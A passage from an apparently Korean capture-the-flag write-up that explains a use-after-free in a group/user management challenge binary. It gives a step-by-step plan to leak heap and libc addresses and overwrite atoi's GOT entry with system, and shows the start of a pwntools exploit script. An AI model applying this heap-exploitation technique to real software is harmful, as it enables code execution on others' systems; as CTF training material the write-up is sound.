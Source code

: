 ```c
  return 0LL;
}
```

`chk_overlap_400BE0` 함수를 통해 `mem_cnt` 값을 증가시킬 수 있습니다. 만약 `0x100` 만큼 증가시키게 된다면 `gabage collection` 과정에서 `group_list`가 `free` 될 것입니다. group_list가 free 된 후에도 `user` 구조체에는 `group`이 남아있습니다. 이를 통해 `exploit`이 가능합니다.

### add 기능

1. 0x18 크기의 `group->name` 할당
2. 0x10 크기의 `group structure` 할당
3. 0x18 크기의 `user structure` 할당
4. `name` 길이 만큼 `user name` 할당

add 기능의 과정을 이해하고 바로 시나리오로 들어갑시다.

### Exploit Scenario

1. user 추가 (a, b, c, d)
2. edit group 기능을 통해 `mem_cnt` 0x100만큼 증가시켜서 `group`을 `free`시킴 .
3. display user 기능을 통해 heap 주소 릭
4. edit group 기능을 통해 fastbin을 d의 user structure로 변경
5. edit group 기능을 통해 d의 user structure를 atoi의 got로 조작
6. display user 기능을 통해 libc base 주소를 알아냄
7. edit group을 통해 atoi got를 system의 주소로 변경

## Exploit

```python
from pwn import *
import sys, time

def add_user(user_name, group_name, age):
	print p.recvuntil("Action: ")
	p.sendline("0")
	print p.recvuntil("name: ")
	p.sendline(user_name)
	print p.recvuntil("group: ")
	p.sendline(group_name)
	print p.recvuntil("age: ")
	p.sendline(str(age))

def display_group(group_name):
	print p.recvuntil("Action: ")
	p.sendline("1")
	print p.recvuntil("name: ")
	p.sendline(group_name)

def display_user(idx):
	print p.recvuntil("Action: ")
	p.sendline("2")
	print p.recvuntil("index: ")
	p.sendline(str(idx))

def edit_group(idx, yn, group_name):
	print p.recvuntil("Action: ")
	p.sendline("3")
	print p.recvuntil("index: ")
	p.sendline(str(idx))
	print p.recvuntil("(y/n): ")
	p.sendline(yn)
	print p.recvuntil("name: ")
	p.sendline(group_name)
```